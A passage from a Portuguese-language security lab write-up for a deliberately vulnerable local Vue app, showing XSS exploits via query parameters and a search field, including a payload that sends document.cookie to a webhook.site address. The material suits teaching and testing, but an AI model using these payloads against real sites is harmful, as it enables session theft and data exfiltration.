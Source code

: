 **Resultado esperado:**
- Retorna TODOS os usuários do banco, independente do filtro
- Possível extração de dados sensíveis
- Possível manipulação/deleção de dados

---

### 2. 🎭 Cross-Site Scripting (XSS)

**Localização:** `App.vue` - Múltiplos locais usando `v-html`

#### 🎯 Exploit 1: XSS via Query Parameter

**Código vulnerável:**
```javascript
const msg = urlParams.get('message');
if (msg) {
  this.welcomeMessage = `<p>${msg}</p>`; // Sem sanitização!
}
```

**Como explorar:**
```bash
# Via navegador - Abra esta URL:
http://localhost:3000/?message=<script>alert('XSS Vulnerabilidade!')</script>

# Ou esta (bypass de filtros básicos):
http://localhost:3000/?message=<img src=x onerror=alert('XSS')>
```

#### 🎯 Exploit 2: XSS via busca de usuários

**Abra o frontend e digite na busca:**
```html
<img src=x onerror="alert('XSS na busca!')">

```

#### 🎯 Exploit 3: Roubo de dados (Cookie Stealing)

https://webhook.site/

```html
<img src=x onerror="fetch('https://webhook.site/ac1876cc-68bb-4153-99f6-133f7fb352ff?cookie='+document.cookie)">

```

**Resultado esperado:**
- Pop-up de alerta aparece
- Script malicioso é executado no navegador da vítima
- Possível roubo de sessão/cookies

---

### 3. 🔑 Credenciais Hardcoded
